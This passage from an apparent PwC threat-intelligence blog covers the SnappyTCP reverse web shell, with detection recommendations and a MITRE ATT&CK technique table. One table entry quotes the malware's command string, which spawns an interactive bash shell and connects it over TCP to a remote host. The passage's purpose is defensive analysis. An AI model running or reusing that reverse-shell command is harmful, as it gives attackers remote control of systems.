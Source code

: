 
Recommendations

PwC recommends searching historical logs and configuring alerting for the indicators or detection content provided in this blog. If any of these indicators are discovered, or detection content generates alerts, we recommend organisations investigate their origin and conduct forensic analysis. If there are no significant findings, we recommend blocking the provided malicious indicators.





Overview of TTPs
More detailed information on each of the techniques used in this blog, along with detection and mitigations, can be found on the following MITRE pages:













Tactic

Technique

ID

Procedure

Execution

Command and Scripting Interpreter: Unix Shell

T1059.004

SnappyTCP uses Unix (e.g., bash) as a command prompt, as seen here: “-c \\"./kdd_launch exec:'bash -li',pty,stderr,setsid,sigint,sanetcp:%s:%d2>&1>/dev/null&\\"

Persistence

Server Software Component: Web Shell

T1505.003

SnappyTCP is a reverse web shell that establishes persistence on a system. 

Command and Control

Application Layer Protocol: Web Protocols

T1071.001

SnappyTCP uses HTTP as part of its GET requests for command and control communications.

Command and Control

Non-Application Layer Protocol

T1095

SnappyTCP uses TCP for command and control communications.
